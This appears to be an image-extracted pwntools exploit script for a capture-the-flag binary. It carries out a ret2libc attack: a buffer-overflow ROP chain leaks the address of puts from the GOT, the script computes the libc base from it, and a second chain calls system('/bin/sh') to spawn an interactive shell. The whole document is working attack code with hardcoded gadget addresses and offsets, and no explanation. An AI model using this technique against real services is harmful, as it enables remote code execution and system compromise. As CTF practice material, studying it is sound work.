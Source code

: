 ```python

#gatget
pop_rdi = p64(0x0000000000400883)
ret=p64(0x000000000040056e)
 
##
puts_offset = 0x809c0
sys_offset = 0x4f440
bin_offset = 0x1b3e9a

puts_got = p64(0x601018)
puts_plt = p64(0x400580)
main_got = p64(0x00000000004006c7)

###
payload = "A"*26
payload += pop_rdi
payload += puts_got
payload += puts_plt
payload += main_got

p.sendline(payload)

puts_addr = p.recv(6)
print(puts_addr)
puts_addr += "\x00\x00"
print(puts_addr)
puts_addr = u64(puts_addr)

log.info('leak = '+hex(puts_addr))
p.recvuntil("Show me your number~!\n")

p.sendline("9830400")

p.recvuntil("That's cool. Follow me\n")

libc_base_real = puts_addr-puts_offset

system_addr = libc_base_real+sys_offset
bin_sh_addr = libc_base_real+bin_offset

print('system = '+hex(system_addr))
#print(hex(bin_sh_addr))

payload2 = "A"*26
payload2 += pop_rdi
payload2 += p64(bin_sh_addr)
payload2 += ret
payload2 += p64(system_addr)
#raw_input('1')
p.sendline(payload2)
p.interactive()
```
